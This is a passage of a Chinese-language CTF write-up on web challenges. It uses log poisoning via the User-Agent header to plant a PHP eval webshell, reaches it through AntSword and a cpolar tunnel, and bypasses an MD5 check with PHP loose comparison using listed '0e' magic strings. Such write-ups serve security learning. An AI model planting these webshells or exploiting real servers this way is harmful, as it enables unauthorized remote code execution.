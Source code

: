 得到返回数据

![image-20240313121005957](D:\文档\ctf\assets\image-20240313121005957.png)

发现日志记录了报文header中UA部分。在UA中写入一句话木马

```php
<?php @eval($_POST['flag']); ?>
```

发送之后发现返回的日志文件中没有这段木马，原因应该是php代码被执行了

![image-20240313135938697](D:\文档\ctf\assets\image-20240313135938697.png)

接下来直接用蚁剑连接

![image-20240313140229385](D:\文档\ctf\assets\image-20240313140229385.png)

![image-20240313140252814](D:\文档\ctf\assets\image-20240313140252814.png)

拿到flag

##### 解法二

![image-20240313150632040](D:\文档\ctf\assets\image-20240313150632040.png)

直接在本地创建txt文件（php会被url过滤），文件中写入php代码

```php
<?php @eval($_POST['flag']); ?>
```

然后蚁剑连接破解。

但这样有个问题，因为电脑防火墙的原因，外部网站无法直接访问，导致无法通过该木马获取数据，因此先用cpolar转发

![image-20240313150844185](D:\文档\ctf\assets\image-20240313150844185.png)

![image-20240313150924650](D:\文档\ctf\assets\image-20240313150924650.png)

即可连接。



#### web5

![image-20240313174941472](D:\文档\ctf\assets\image-20240313174941472.png)

观察题目，get两个参数，第一个全是英文字母，第二个全是数字，并且二者的md5加密后还要被认为相等。

这里利用到了php弱类型比较产生的漏洞加密后以0e开头会被认为是科学计数法数字0，从而被判定为相等

记录几个加密后以0e开头的

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
```
